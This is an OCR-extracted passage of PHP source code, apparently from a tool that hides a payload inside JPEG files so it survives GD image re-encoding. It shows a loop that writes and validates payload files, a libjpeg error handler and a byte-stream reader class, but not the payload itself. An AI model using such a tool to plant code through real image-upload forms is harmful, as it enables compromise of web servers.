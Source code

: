 ```plain
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');
 
    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }
 
    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }
 
    class DataInputStream {
        private $binData;
        private $order;
        private $size;
 
        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }
 
        public function seek() {
            return ($this->size - strlen($this->binData));
        }
 
        public function skip($skip) {
            $this->binData = substr($this->binData, $skip);
        }
 
        public function readByte() {
            if($this->eof()) {
```